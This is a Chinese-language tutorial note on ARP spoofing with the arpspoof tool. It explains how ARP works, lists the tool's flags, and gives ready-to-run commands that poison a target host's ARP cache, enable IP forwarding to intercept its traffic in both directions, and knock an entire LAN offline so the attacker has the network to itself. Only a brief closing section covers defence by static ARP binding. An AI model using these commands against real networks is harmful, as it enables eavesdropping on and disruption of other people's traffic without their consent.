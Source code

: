 地址解析协议，即ARP（Address Resolution Protocol），是根据IP地址 获取物理地址（MAC地址）的一个TCP/IP协议。
主机发送信息时将包含目标IP地址的ARP请求广播到局域网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源。
地址解析协议是建立在网络中各个主机互相信任的基础上的，局域网络上的主机可以自主发送ARP应答消息，其他主机收到应答报文时不会检测该报文的真实性就会将其记入本机ARP缓存；


# 语法
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

# 参数
-t target  指定一个特殊的、将被ARP毒化的主机（如果没有指定，则认为是局域网中所有主机）。重复可以指定多个主机
host  host是你想要截获数据包的主机 (通常是网关)。
-i interface  指定要使用的接口（即指定一块网卡）
-r 捕获两个方向的网络流量, 默认只捕获target到host的流量

使用 `ip a`来查看网卡名称 

# 使用
`arpspoof -i eth0 -t 192.168.31.45  192.168.31.1`
-i 指定网卡
-t 目标哦主机
host 网关
这个命令的含义是获取目标主机发给网关的包

# 应用
## 让目标主机断网
截获目标主机发给网关的信息
`arpspoof -i eth0 -t 192.168.31.45  192.168.31.1`
## 截取目标主机信息
```sh
# 开启本机的转发功能 1表示开启, 0表示关闭
echo 1 > /proc/sys/net/ipv4/ip_forward 
arpspoof -i eth0 -t 192.168.31.45 -r 192.168.31.1
```
## 让整个个局域网断网
不用-t参数，那它就是指针对所有的主机发起欺骗, 让所有其他主机不能上网, 这时只要自己不被欺骗就可以独享网络.
`arpspoof -i eth0 网关IP`


## 防范中间人欺骗
arp欺骗攻击就是通过改变主机的映射表，即原来192.168.1.1指向的mac地址是a-b-c-d, 而有人在局域网内喊话说192.168.1.1是a-a-a-a 那你的电脑收到后就会改变

```sh
arp -a  # 查看arp缓存表, 可以看到iP和MAC是动态的
arp -s  192.168.31.1   ec-41-18-49-d4-30  # 静态绑定
```




参考:
https://blog.csdn.net/qq_54780911/article/details/121891827
https://blog.csdn.net/qq_54780911/article/details/121957519